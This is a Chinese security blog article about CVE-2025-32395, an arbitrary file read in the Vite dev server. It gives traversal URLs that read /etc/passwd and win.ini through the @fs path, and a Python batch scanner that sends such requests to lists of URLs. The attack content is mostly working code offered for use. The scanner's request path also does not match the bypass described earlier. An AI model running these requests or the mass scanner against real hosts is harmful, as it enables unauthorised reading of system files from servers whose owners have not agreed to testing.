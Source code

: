 #  开发者注意！Vite框架曝高危漏洞，你的项目受影响了吗？（含poc和批量脚本）   
原创 淮橘安全  淮橘安全   2025-04-17 02:23  
  
# 声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，淮橘安全及文章作者不为此承担任何责任。  
  
  
现在只对常读和星标的公众号才展示大图推送，建议大家能把  
“  
**设为星标**  
”，  
否则可能就看不到了啦  
！每日为大家推送0day，1day，好用的工具供大家学习  
  
  
  
**0x01 漏洞描述**  
  
  
      近日，Vite框架曝出了一项高危漏洞——**CVE-2025-32395**  
，该漏洞可能导致**任意文件读取**  
，对广大开发者而言，带来不小的安全隐患。作为广受欢迎的前端构建工具，Vite的这个漏洞需要引起开发者的高度关注，尤其是在项目中使用Vite框架的开发者。                                                                                                                                                                                                                                                   
  
  
**0x02 漏洞原理**  
  
  
该漏洞源于Vite框架中正则表达式的缺陷，具体表现为在处理URL参数时，未对路径进行充分的安全性检查，攻击者可以利用这一缺陷，通过构造特殊的路径绕过安全控制，读取系统中的任意文件。  
  
攻击者通过发送特制的请求，访问Vite服务中的路径，如 @fs/  
，即可绕过安全防护，访问本应受限的系统文件。比如，攻击者可以通过访问以下路径：  
```
http://localhost:5173/@fs/root/pseudocat/#/../../../../../etc/passwd
```  
  
来读取服务器上的敏感文件 passwd  
，暴露系统中的用户信息。**这意味着攻击者能够窃取到系统内的关键信息，甚至完全掌控服务器。**  
  
**0x03 漏洞复现**  
  
  
**1、环境搭建：首先，确保你的Vite框架版本未更新至最新版本（未修复漏洞的版本）。可以通过以下命令来搭建Vite开发环境：**  
```
npm init vite@latest
# 选择框架并安装依赖
npm install
npm run dev
```  
  
**2、漏洞复现：启动本地开发服务器后，构造以下特定的请求：**  
  
**windows：**  
```
http://localhost:5173/@fs/root/pseudocat/#/../../../../../C://windows/win.ini
```  
  
**linux：**  
```
http://localhost:5173/@fs/root/pseudocat/#/../../../../../etc/passwd
```  
  
****  
**0x04 批量检测POC**  
  
使用方法：  
```
  -h, --help            show this help message and exit
  -u URL, --url URL     单个URL进行检测
  -f FILE, --file FILE  从文件中读取URL进行批量检测
```  
  
python脚本  
```
import requests
import argparse
# 检查漏洞的函数
def check_vulnerability(url):
    vulnerable_path = "/@fs/etc/passwd"  # 漏洞路径
    test_url = f"{url}{vulnerable_path}"
    try:
        response = requests.get(test_url)
        # 如果返回的状态码是200且包含敏感信息（如/etc/passwd内容），则漏洞存在
        if response.status_code == 200 and "root" in response.text:
            print(f"[漏洞检测成功] {test_url} 存在漏洞！")
        else:
            print(f"[漏洞检测失败] {test_url} 没有发现漏洞。")
    except requests.exceptions.RequestException as e:
        print(f"[错误] 请求失败: {e}")
# 从文件中读取URL并检测漏洞
def check_from_file(file_path):
    try:
        with open(file_path, 'r') as f:
            urls = f.readlines()
            urls = [url.strip() for url in urls if url.strip()]  # 去掉空行
        for url in urls:
            check_vulnerability(url)
    except FileNotFoundError:
        print(f"[错误] 文件 {file_path} 未找到！")
# 解析命令行参数
def parse_args():
    parser = argparse.ArgumentParser(description="批量检测Vite框架漏洞（CVE-2025-32395）")
    parser.add_argument("-u", "--url", help="单个URL进行检测", type=str)
    parser.add_argument("-f", "--file", help="从文件中读取URL进行批量检测", type=str)
    return parser.parse_args()
# 主函数
def main():
    args = parse_args()
    if args.url:
        check_vulnerability(args.url)
    elif args.file:
        check_from_file(args.file)
    else:
        print("[错误] 请提供 URL 或文件进行检测。")
        print("使用 -h 查看帮助信息。")
if __name__ == "__main__":
    main()
```  
  
  
  

